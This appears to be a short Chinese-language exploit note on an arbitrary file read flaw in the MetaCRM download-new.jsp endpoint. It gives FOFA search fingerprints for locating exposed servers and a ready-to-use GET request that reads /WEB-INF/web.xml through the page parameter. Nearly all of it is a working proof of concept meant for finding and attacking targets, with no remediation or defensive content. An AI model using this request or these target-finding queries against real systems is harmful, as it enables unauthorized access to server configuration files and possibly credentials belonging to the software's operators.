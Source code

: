 美特CRM download-new存在任意文件读取

fofa

title="MetaCRM" || body="/common/images/login/metacrm.gif" || body="MetaCRM5 loading" || body="Metasoft Co., Ltd."

poc

GET /business/common/download-new.jsp?filename=&page=/WEB-INF/web.xml